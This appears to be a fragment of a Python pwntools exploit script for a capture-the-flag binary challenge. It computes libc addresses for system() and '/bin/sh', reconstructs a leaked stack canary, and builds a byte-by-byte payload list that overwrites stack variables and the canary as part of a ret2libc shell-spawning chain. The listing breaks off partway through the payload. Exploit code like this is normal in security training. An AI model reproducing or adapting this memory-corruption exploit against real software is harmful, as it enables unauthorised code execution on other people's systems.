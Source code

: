 ```python
bin_sh = libc_base + 0x14bc23     # pointer to /bin/sh
system_addr = libc.symbols['system']

log.success("pop_rdi_ret: "+hex(pop_rdi_ret))
log.success("/bin/sh: "+hex(bin_sh))
log.success("system: "+hex(system_addr))

canary_byte = []
for i in xrange(2, 17, 2):
    canary_byte.append( str(int(canary[i:i+2:], 16) ) )

r.send("y\n")

# 0~15 to pass the first 16 numbers
for i in range(16):
    print r.recvuntil(": ")
    log.success("sending: "+str(guess[i]))
    r.send(str(guess[i])+"\n")

payloads = ["52",# will be adjust later
            "0",#padding
            "0",#padding
            "0",#padding
            lucky_byte1,   # lucky number
            lucky_byte2,   # lucky number
            lucky_byte3,   # lucky number
            lucky_byte4,   # lucky number
           "1", # v10 for win
            "0",#padding
            "0",#padding
            "0",#padding
           "17", # i
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # v12_1
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # v12_2
            "0",#padding
            "0",#padding
            "0",#padding
            "8", #name_buf 0x08
            "49", #name_buf 0x31
            "96", #name_buf 0x60
            "0", #name_buf 0x00
           "0", # padding
            "0",#padding
            "0",#padding
            "0",#padding
            "168", #name_buf 0xa8
            "48", #name_buf 0x30
            "96", #name_buf 0x60
            "0", #name_buf 0x00
           "0", # padding
            "0",#padding
            "0",#padding
            "0",#padding
           canary_byte[7], # canary 1
           canary_byte[6], # canary 2
           canary_byte[5], # canary 3
           canary_byte[4], # canary 4
```